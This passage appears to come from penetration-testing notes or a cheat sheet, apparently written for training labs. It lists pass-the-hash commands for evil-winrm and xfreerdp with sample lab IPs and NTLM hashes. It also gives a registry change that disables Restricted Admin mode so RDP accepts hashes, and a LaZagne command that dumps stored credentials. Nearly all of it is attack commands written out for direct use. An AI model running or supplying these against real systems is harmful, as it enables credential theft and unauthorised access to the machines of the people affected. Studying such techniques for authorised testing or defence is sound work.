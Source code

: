 ```
evil-winrm -i <IP> -u <username> -H <hash>
```

Example:

```
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

> RDP

Add the registry:

```
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Syntax:

```
xfreerdp  /v:<IP> /u:<username> /pth:<hash>
```

Example:

```
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```


### Dump Memory 

#### Interesting Tools

> LaZagne

```
python2.7 laZagne.py all
```

